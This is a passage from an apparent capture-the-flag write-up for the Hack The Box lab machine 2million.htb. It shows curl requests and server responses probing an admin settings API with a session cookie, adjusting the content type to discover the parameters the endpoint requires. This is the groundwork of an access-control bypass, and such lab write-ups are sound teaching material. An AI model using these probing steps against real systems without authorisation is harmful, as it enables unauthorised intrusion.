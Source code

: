 ```
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> ...
>
< HTTP/1.1 401 Unauthorized
< Server: nginx
< ...
```

`/settings/update` :

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -d ""
```

```
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> Content-Type: application/x-www-form-urlencoded
> ...
>
< HTTP/1.1 200 OK
< Server: nginx
< Content-Type: application/json
< ...

{"status":"danger","message":"Invalid content type."}
```

Ok, the content type of our request is wrong. Let's try to use `application/json` instead of the curl default (`application/x-www-form-urlencoded`):

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d ""
```

```
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> Content-Type: application/json
> ...
>
< HTTP/1.1 200 OK
< Server: nginx
< Content-Type: application/json
< ...
<

{"status":"danger","message":"Missing parameter: email"}⏎
```
